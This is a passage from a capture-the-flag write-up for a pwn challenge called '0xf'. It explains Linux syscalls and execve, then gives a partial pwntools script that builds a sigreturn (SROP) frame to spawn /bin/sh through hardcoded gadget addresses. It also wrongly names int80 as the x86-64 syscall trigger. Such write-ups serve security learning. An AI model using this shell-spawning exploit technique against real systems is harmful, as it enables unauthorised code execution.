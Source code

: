 And how do we trigger a syscall
- On Linux, a syscall is triggered by the int80 instruction. Once it's called, the kernel checks the value stored in RAX - this is the syscall number, which defines what syscall gets run. As per the table, the other parameters can be stored in RDI, RSI, RDX, etc and every parameter has a different meaning for the different syscalls.

A notable syscall is the execve syscall, which executes the program passed to it in RDI. RSI and RDX hold arvp and envp respectively.

This means, if there is no system() function, we can use execve to call /bin/sh instead - all we have to do is pass in a pointer to /bin/sh to RDI, and populate RSI and RDX with 0 (this is because both argv and envp need to be NULL to pop a shell).

And luckily pwntool can allow us interact with sigreturn 

Here's my exploit [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/battlectf23/prequal/pwn/0xf/solve.py)

```python
#!/usr/bin/python
from pwn import *
import warnings

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './0xf'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 56

rax_0xf = 0x000000000040113a # mov eax, 0xf; ret;
syscall = 0x0000000000401140 # syscall; ret; 

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = 0x402004        # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = syscall

```
